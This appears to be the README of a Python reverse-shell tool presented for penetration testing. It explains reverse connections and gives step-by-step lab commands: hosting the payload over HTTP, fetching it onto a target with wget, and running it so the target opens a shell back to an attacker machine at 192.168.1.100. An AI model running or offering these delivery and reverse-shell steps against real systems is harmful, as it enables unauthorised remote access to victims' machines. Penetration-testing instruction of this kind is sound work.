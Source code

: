 # Reverse-Shell
Python reverse shell that can be used during a penetration test.

# Background
After exploitng a machine the attacker needs a way to get access to the machine even after the vulnerability used bythe attacker is fixed. These scenario the attacker uses a reverse connection. By default most enterprise firewalls will block outside connection from connecting into the network, hence the attacker will have to get the target to connect to them using a reverse connection. The reverse shell above is composed of socket and relies onthe TCP protocol which is connection oriented. Socket is an API that allow programs to communicate over a network.
The reverse shell consists of two parts:

    a)Ability to connect to the attacker machine.
    b)Allows an attacker to execute terminal commands on a victim machine.

Accessing victim machine can be archived by carrying out reccon to identify open ports and services running onthem, then looking for exploits for this services. When an attacker gets an exploit to leverage a vulnerability onthe target they send malicious packets to the processes hosted onthe port and possibly compromise the system.

# Using the Python Reverse Shell
Host the payload on a server using

    kali> python3 -m http.server 8080
![pythonhttp server](https://github.com/user-attachments/assets/8739c333-18d8-4247-b90f-b8eb093cb8f0)

Then use the wget command to download the payload onto the system from the server

    kali> wget 192.168.1.100:8080/reverseShell.py
![delivery](https://github.com/user-attachments/assets/dc80e3f0-4619-4098-96cf-d98c94342d67)

Start the server on the attacker machine:

    kali> python3 server.py

Then execute the reverse shell onthe target:

    kali> python reserseShell.py 192.168.1.100 &                      Note: The & operator in bash is used to background a process.
![execute on target](https://github.com/user-attachments/assets/c9740c2c-33bd-4d0c-ba5e-ecddd269becc)

Now onthe Kali machine we get a connection onto our server allowing us to execute system commands onthe compromised system.
![c c](https://github.com/user-attachments/assets/ac832b50-3c46-44e2-adc8-e7a062bd69b7)


